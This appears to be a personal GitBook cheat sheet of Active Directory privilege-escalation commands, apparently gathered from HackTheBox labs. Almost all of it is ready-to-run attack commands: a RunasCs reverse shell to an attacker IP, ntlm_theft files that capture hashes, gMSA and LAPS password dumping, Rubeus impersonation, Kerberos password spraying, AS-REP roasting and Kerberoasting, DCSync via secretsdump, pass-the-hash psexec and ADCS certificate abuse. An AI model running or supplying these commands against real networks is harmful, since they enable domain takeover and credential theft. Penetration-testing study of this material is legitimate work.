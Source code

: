 # AD PrivEsc

dc-ip you aclly gotta add the dc dns name too to hosts eg. dc.manager.htb or sum

printer config -> return \[easy]

krbrelayx, so many relays in impacket itself \[ntlmrelayx]

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet" %}

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure></div>

{% embed url="https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg" %}
Ultimate AD Mindmap
{% endembed %}

### Bloodhound

```
./SharpHound.exe --CollectionMethod All
bloodhound-python -u '[user]' -p '[password]' -d [domain] -dc [dc] -ns [ip] -c all
```

#### SharpGPOAbuse - Modify Group Policy Objects

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount [user] --GPOName [fake_GPO]
gpupdate /force
```

#### RunAs - Sudo for Windows

```
.\RunasCs.exe "[user]" '[password]' powershell.exe -r 10.10.14.2:9001
```

#### gMSADumper - Reads any gMSA password blobs the user can access

```
python3 gMSADumper.py -u '[user]' -p '[password]' -d [domain]
```

#### pyLAPS - Read LAPS if user has the privilege

```
python3 pyLAPS.py --action get -d "[domain]" -u "[user]" -p '[password]'
```

#### NTLMTheft - Creates files that steal NTLM hashes if clicked on/accessed

```
python ntlm_theft.py -g all -s 10.10.14.9 -f jtripz
```

### Rubeus

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-rubeus/" %}

```
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
.\Rubeus.exe klist
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\Programdata\cert.pfx
.\Rubeus.exe tgtdeleg /nowrap
```

## Kerberos

```
./kerbrute_linux_amd64 passwordspray -d FRIZZ.HTB ~/htb/rooms/frizz/output.txt '!suBcig@MehTed!R' --dc 'FRIZZDC.FRIZZ.HTB'
./kerbrute_linux_amd64 userenum -d egotistical-bank.local  ~/htb/sauna/newuser.txt --dc egotistical-bank.local -v | grep 'VALID' 
```

#### DNSTool \[krbrelayx] - Edit  ADIDNS (AD Integrated DNS)

Regular users create child objects by default, attackers can leverage that and hijack traffic - no need to be DNS Admin for this

```
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 --action add --record web-0xdf --data 10.10.14.2 --type A 10.10.10.248
```

### Impacket

#### GetNPUsers - ASREP Roasting for users with no pre-auth

```
python3 GetNPUsers.py [domain]/ -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] -request '[domain]/[user]'
```

#### GetUserSPN - find Service Principal Names that are associated with normal user account

```
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>
```

#### SecretsDump - Dump admin hashes if DCSync privileges enabled

```
sudo python3 secretsdump.py [domain]/[user]@[ip]
sudo python3 secretsdump.py -k -no-pass [host_domain] -just-dc-user [user] #Using KRB5CCNAME
```

#### getTGT - request a TGT and save it as ccache

```
python3 getTGT.py -dc-ip [ip] [domain]/'[user]':'[password]'
```

#### getST - request a Service Ticket and save it as ccache

```
python3 getST.py -spn [SPN] [-impersonate administrator] -hashes [hash] -dc-ip [ip] [domain]/[user]
```

#### PSexec - Semi shell that writes to $ADMIN share

```
export KRB5CCNAME=ticket.ccache; python3 psexec.py [domain]/[user]@[dc_domain] -k -no-pass
python3 psexec.py -hashes [hash] [user]@[ip] cmd.exe 
```

{% embed url="https://medium.com/@allypetitt/windows-remoting-difference-between-psexec-wmiexec-atexec-exec-bf7d1edb5986" %}

#### TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files and vice-versa

```
base64 -d ticket.kirbi.b64 > ticket.kirbi
./ticketConverter.py ticket.kirbi ticket.ccache
```

### AD CS (Certificate Service)

```
certipy-ad find -dc-ip [ip] -ns [ip] -u [user]@[domain] -p '[password]' -vulnerable -stdout
nxc ldap "domain_controller" -d "domain" -u "user" -p "password" -M adcs
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
